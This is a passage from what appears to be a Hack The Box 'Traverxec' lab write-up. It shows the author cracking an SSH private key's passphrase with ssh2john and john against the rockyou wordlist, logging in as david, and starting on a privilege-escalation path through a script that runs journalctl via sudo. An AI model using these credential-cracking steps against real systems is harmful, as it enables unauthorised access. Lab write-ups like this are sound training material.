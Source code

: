 When attempting to connect with it, however, it prompts for a passphrase as well as the key. I entered the htpasswd value I reversed earlier hoping it'd actually be of some use, but unfortunately - no dice:

```
root@playpen:/htb/traverxec/home/david/.ssh# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa':                                                                                   
david@10.10.10.165's password:                                                                                       
Permission denied, please try again. 
```

After a bit of Googling, I realised I needed to crack the private key to extract the passphrase needed to authenticate with the certificate:

```
root@playpen:/htb/traverxec/home/david/.ssh# locate ssh2john.py
/usr/share/john/ssh2john.py                               
root@playpen:/htb/traverxec/home/david/.ssh# /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
root@playpen:/htb/traverxec/home/david/.ssh# john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8                       
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes       
Will run 6 OpenMP threads                                                                             	               
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.                             
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)                                 
1g 0:00:00:02 DONE (2020-04-10 20:25) 0.3424g/s 4911Kp/s 4911Kc/s 4911KC/s     1990..*7¡Vamos!
Session completed    
```

After successfully authenticating to ssh as david, I'm finally able to grab the user file and move on to getting root:
![authenticated](https://opalsec.github.io/assets/images/traverxec/authenticated.png)

# Privesc to Root

The first thing that jumped out to me was the bin folder, which contained a script to grab stats from the server:

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
